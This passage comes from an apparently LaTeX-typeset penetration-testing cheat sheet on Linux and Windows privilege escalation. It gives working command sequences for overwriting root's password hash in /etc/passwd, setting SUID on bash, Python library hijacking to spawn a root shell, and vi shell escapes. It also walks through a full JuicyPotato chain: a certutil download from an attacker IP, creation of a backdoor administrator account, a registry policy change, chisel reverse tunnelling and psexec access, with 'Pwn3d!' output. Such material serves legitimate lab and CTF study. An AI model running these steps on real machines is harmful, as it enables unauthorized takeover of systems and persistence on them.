\BuiltInTok{cd}\NormalTok{ /}
\FunctionTok{find}\NormalTok{ \textbackslash{}-perm -4000 }\OperatorTok{2>}\NormalTok{/dev/null}
\end{Highlighting}
\end{Shaded}

\hypertarget{writable-rights-in-etcpasswd}{%
\section*{Writable rights in /etc/passwd}\label{writable-rights-in-etcpasswd}}
\addcontentsline{toc}{section}{Writable rights in /etc/passwd}

Find the tools where the non privileged user have writable rights

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /}
\FunctionTok{find}\NormalTok{ \textbackslash{}-writable -4000 }\OperatorTok{2>}\NormalTok{/dev/null }\KeywordTok{|} \FunctionTok{grep} \StringTok{"etc"}
\end{Highlighting}
\end{Shaded}

Imagine that /etc/passwd is in the list, that means that u can add a password to root where the first \textbf{x} is.

Create a DES(Unix) password

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{openssl}\NormalTok{ passwd}
\CommentTok{#Output}
\ExtensionTok{Password}\NormalTok{:}
\ExtensionTok{Verifying}\NormalTok{ - Password:}

\ExtensionTok{JIJQueSBU9kBY}
\end{Highlighting}
\end{Shaded}

You can then copy the hash in passwd for the root user

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{root}\NormalTok{:JIJQueSBU9kBY:0:0:root:/root:/usr/bin/zsh}
\end{Highlighting}
\end{Shaded}

\hypertarget{local-port-forwarding}{%
\section*{Local Port forwarding}\label{local-port-forwarding}}
\addcontentsline{toc}{section}{Local Port forwarding}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh}\NormalTok{ -i id_rsa user@}\OperatorTok{<}\NormalTok{ip}\OperatorTok{>}\NormalTok{ -L 9000:172.17.0.2:9000}
\end{Highlighting}
\end{Shaded}

\begin{itemize}
\tightlist
\item
  -i for adding ssh id\_rsa key
\item
  -L for local port forwarding where 9000 correspond to local attacker port and 172.17.0.2:9000 correspond to the address Attacker want to connect using ssh
\end{itemize}

\hypertarget{add-ssuid-privilege-to-tool}{%
\section*{Add SSUID privilege to tool}\label{add-ssuid-privilege-to-tool}}
\addcontentsline{toc}{section}{Add SSUID privilege to tool}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls}\NormalTok{ -l /bin/bash}
\CommentTok{# output}
\ExtensionTok{-rwxr-xr-x}\NormalTok{  1   root    root    1037528 May 16  2017    bash}

\CommentTok{#add ssuid rules}
\FunctionTok{chmod}\NormalTok{ u+s /bin/bash}
\FunctionTok{ls}\NormalTok{ -l /bin/bash}
\CommentTok{#output}
\ExtensionTok{-rwsr-xr-x}\NormalTok{  1   root    root    1037528 May 16  2017    bash}

\FunctionTok{bash}\NormalTok{ -p}
\CommentTok{# output}
\ExtensionTok{bash-4.3}\NormalTok{# whoami}
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}

\hypertarget{path-hijacking}{%
\section*{Path Hijacking}\label{path-hijacking}}
\addcontentsline{toc}{section}{Path Hijacking}

\textbf{Path Hijacking} take profit of programms that are ssuid and use a command that have a relative path. You can then update the Path variable environment
and point to a malicious software that will be executed as root

\hypertarget{library-hijacking}{%
\section*{Library Hijacking}\label{library-hijacking}}
\addcontentsline{toc}{section}{Library Hijacking}

\textbf{Library Hijacking} follows exactly the same logic as \textbf{Path Hijacking} but with programming languages. If we take the example of python.

\begin{Shaded}
\begin{Highlighting}[]
\ImportTok{import}\NormalTok{ sys}

\BuiltInTok{print}\NormalTok{(sys.path)}
\CommentTok{#Output}
\NormalTok{[}\StringTok{''}\NormalTok{, }\StringTok{'/usr/lib/python2.7'}\NormalTok{, ...]}
\end{Highlighting}
\end{Shaded}

As you can see, when we use the keyword import in python, the first place python will check for importing a library is in the current working directory.
That means that taking the same dumby example if you create a malicious file and rename it by sys.py

\begin{Shaded}
\begin{Highlighting}[]
\ImportTok{import}\NormalTok{ os}

\NormalTok{os.setuid(}\DecValTok{0}\NormalTok{)}
\NormalTok{os.system(}\StringTok{"/bin/bash"}\NormalTok{)}
\end{Highlighting}
\end{Shaded}

That's it\ldots{} by calling the previous script you will become root.

\hypertarget{wildcards}{%
\section*{WildCards}\label{wildcards}}
\addcontentsline{toc}{section}{WildCards}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ -l}

\CommentTok{#output}
\ExtensionTok{User}\NormalTok{ x may run the following commands on y:}
    \KeywordTok{(}\ExtensionTok{user2}\KeywordTok{)} \ExtensionTok{NOPASSWD}\NormalTok{: /usr/bin/vi}


\FunctionTok{sudo}\NormalTok{ -u user2 /usr/bin/vi}
\CommentTok{# in vim you can now set commands as user2}

\NormalTok{:}\ExtensionTok{set}\NormalTok{ shell=/bin/bash}
\NormalTok{:}\ExtensionTok{shell}

\FunctionTok{whoami}
\CommentTok{#output}
\ExtensionTok{user2}
\end{Highlighting}
\end{Shaded}

\hypertarget{linux-capabilities-exploitation}{%
\section*{Linux capabilities exploitation}\label{linux-capabilities-exploitation}}
\addcontentsline{toc}{section}{Linux capabilities exploitation}

Check in the system if a tool have a special capability that can be used in order to escalate privileges (\textbf{cap\_setuid+ep})

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{getcap}\NormalTok{ -r / }\OperatorTok{2>}\NormalTok{/dev/null}
\end{Highlighting}
\end{Shaded}

\hypertarget{kernel-abuse}{%
\section*{Kernel abuse}\label{kernel-abuse}}
\addcontentsline{toc}{section}{Kernel abuse}

first check the kernel version

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{uname}\NormalTok{ -a}
\end{Highlighting}
\end{Shaded}

\hypertarget{windows-machine}{%
\chapter*{Windows Machine}\label{windows-machine}}
\addcontentsline{toc}{chapter}{Windows Machine}

\hypertarget{active-directory}{%
\section*{Active Directory}\label{active-directory}}
\addcontentsline{toc}{section}{Active Directory}

\hypertarget{golden-ticket-attack}{%
\subsection*{Golden Ticket Attack}\label{golden-ticket-attack}}
\addcontentsline{toc}{subsection}{Golden Ticket Attack}

The goal of this attack is to generate a Ticket Granted Ticket. For this attack you thenneed to recover the hash of the \textbf{krbtgt} user that is the one who
can create those tickets

\hypertarget{check-possible-privilege-escalation-vulnerabilities}{%
\section*{Check possible privilege escalation vulnerabilities}\label{check-possible-privilege-escalation-vulnerabilities}}
\addcontentsline{toc}{section}{Check possible privilege escalation vulnerabilities}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  check os:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{systeminfo}
\end{Highlighting}
\end{Shaded}
\item
  copy the result and pase in a file in local
\item
  download windows-exploit-suggester.py
\item
  generate xlsx data base

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ windows-exploit-suggester.py --update}
\end{Highlighting}
\end{Shaded}
\item
  check systeminfo documentation

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ windows-exploit-suggester.py -i systeminfo.txt -d 2021-07-14-mssb.xlsx}
\end{Highlighting}
\end{Shaded}
\item
  github.SecWiki/windows-kernel-exploits
\item
  \texttt{python\ -m\ http.server}
\item
  \texttt{certutil.exe\ -f}
\end{enumerate}

\hypertarget{check-command-history}{%
\section*{Check command history}\label{check-command-history}}
\addcontentsline{toc}{section}{Check command history}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{dir}\NormalTok{/s *}\FunctionTok{history}\NormalTok{.}\FunctionTok{txt}
\end{Highlighting}
\end{Shaded}

\hypertarget{check-local-open-ports}{%
\section*{Check local open ports}\label{check-local-open-ports}}
\addcontentsline{toc}{section}{Check local open ports}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{netstat -nat}
\end{Highlighting}
\end{Shaded}

Usefull to know if we have to do port forwarding.

\hypertarget{juicypotato}{%
\section*{JuicyPotato}\label{juicypotato}}
\addcontentsline{toc}{section}{JuicyPotato}

Juicy Potato is a local privilege escalation tool that exploit Windows service accounts impersonation privileges.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Check user privilege

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{whoami}
\NormalTok{whoami /priv}
\end{Highlighting}
\end{Shaded}

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/juicy-impersonate-priv} \caption{impersonate privilege}\label{fig:unnamed-chunk-17}
   \end{figure}

  Here we can see that \texttt{SeImpersonatePrivilege} is enabled. That means that we can use JuicyPotatoe to run commands
\item
  Check users in the system

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{net user}
\end{Highlighting}
\end{Shaded}
\item
  Create User with Admin privilege

  \begin{itemize}
  \item
    download JuicyPotato.exe and copy in the victim machine
  \item
    create folder in \texttt{C:\textbackslash{}Windows\textbackslash{}Temp}
  \item
    Transfer JuicyPotato to Windows Machine

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{certutil.}\FunctionTok{exe}\NormalTok{ -f -urlcache -split http://10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{/JuicyPotato.}\FunctionTok{exe}\NormalTok{ JP.}\FunctionTok{exe}
\end{Highlighting}
\end{Shaded}
  \item
    Create user looping

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{JP.}\FunctionTok{exe}\NormalTok{ -t * -l 1337 -p C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}cmd.}\FunctionTok{exe}\NormalTok{ -a }\StringTok{"/c net user looping looping123! /add"}
\end{Highlighting}
\end{Shaded}
  \item
    Add user to Administrators group

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{JP.}\FunctionTok{exe}\NormalTok{ -t * -l 1337 -p C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}cmd.}\FunctionTok{exe}\NormalTok{ -a }\StringTok{"/c net localgroup Administrators looping /add"}
\NormalTok{net user looping}
\end{Highlighting}
\end{Shaded}
  \item
    Create Share folder where user with Administrators rules have Full privilege

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{JP.}\FunctionTok{exe}\NormalTok{ -t * -l 1337 -p C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}cmd.}\FunctionTok{exe}\NormalTok{ -a }\StringTok{"/c net share attacker_folder=C:\textbackslash{}Windows\textbackslash{}Temp /GRANT:Administrators,FULL"}
\end{Highlighting}
\end{Shaded}
  \item
    Update local account policy to gain access to the system

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{JP.}\FunctionTok{exe}\NormalTok{ -t * -l 1337 -p C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}cmd.}\FunctionTok{exe}\NormalTok{ -a }\StringTok{"/c reg add HKLM\textbackslash{}Software\textbackslash{}Microsoft\textbackslash{}Windows\textbackslash{}CurrentVersion\textbackslash{}Policies\textbackslash{}System }
\NormalTok{                                                            /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f}\StringTok{"}
\end{Highlighting}
\end{Shaded}
  \item
    Check with chisel and crackmapexec if user looping is now Pownd

    \begin{itemize}
    \item
      download chisel on attacker machine and on victim machine
    \item
      run chisel on attacker machine

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./chisel}\NormalTok{ server --reverse --port 1234}
\end{Highlighting}
\end{Shaded}
    \item
      run chisel on windows victim machine

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{chisel.}\FunctionTok{exe}\NormalTok{ client 10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{:1234 R:445:127.}\FunctionTok{0}\NormalTok{.}\FunctionTok{0}\NormalTok{.}\FunctionTok{1}\NormalTok{:445}
\end{Highlighting}
\end{Shaded}
    \item
      check if revert port forwarding works

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 127.0.0.1}
\end{Highlighting}
\end{Shaded}
    \item
      check if looping is powned

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smp -u }\StringTok{'looping'}\NormalTok{ -p }\StringTok{'looping123!'}\NormalTok{ --sam}

\CommentTok{#OUTPUT}
\ExtensionTok{SMB}\NormalTok{ 127.0.0.1   445 MACHINENAME [*] machinename\textbackslash{}looping:looping123! (Pwn3d!)}
\end{Highlighting}
\end{Shaded}
    \end{itemize}
  \item
    Connect to machine with psexec.python

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{locate}\NormalTok{ psexex.py}
\ExtensionTok{psexec.py}\NormalTok{ WORKGROUP/looping@127.0.0.1 cmd.exe}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\end{enumerate}

\hypertarget{system-enumeration-with-powerup-for-privesc}{%
\section*{System enumeration with PowerUp for Privesc}\label{system-enumeration-with-powerup-for-privesc}}
\addcontentsline{toc}{section}{System enumeration with PowerUp for Privesc}

\textbf{PowerUp} is a script from the PowerSploit Library. PowerSploit is a collection of Microsoft PowerShell modules that can be used to aid penetration
testers during all phases of an assessment.

\href{https://github.com/PowerShellMafia/PowerSploit}{PowerSploit github}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Open the script

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ PowerSploit/Privesc}
\ExtensionTok{vi}\NormalTok{ PowerUp.ps1}
\end{Highlighting}
\end{Shaded}
\item
  Set an automatic execution of the desired Alias

  \begin{itemize}
  \tightlist
  \item
    Write \texttt{Invoke-AllChecks} the end of the file
  \end{itemize}
\item
  Send to the victim machine
\item
  Check the result

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/sys-enum-powerup} \caption{PowerUp system enumeration}\label{fig:unnamed-chunk-18}
   \end{figure}
\end{enumerate}

In this example we can see that the UsoSvc is a Modifiable Service with an Invoke-ServiceAbuse function.

Feel free now to check for an exploit on \href{https://github.com/swisskyrepo/PayloadsAllTheThings}{PayloadAllTheThings}.
Payloads for Windows and Active Directory are listed in the \href{https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology\%20and\%20Resources}{Methodology and Resource Folder}
where you can find a \textbf{Windows - Privilege Escalation.md}.

Search for UsoSvc to find what to do.


% Index?

\end{document}

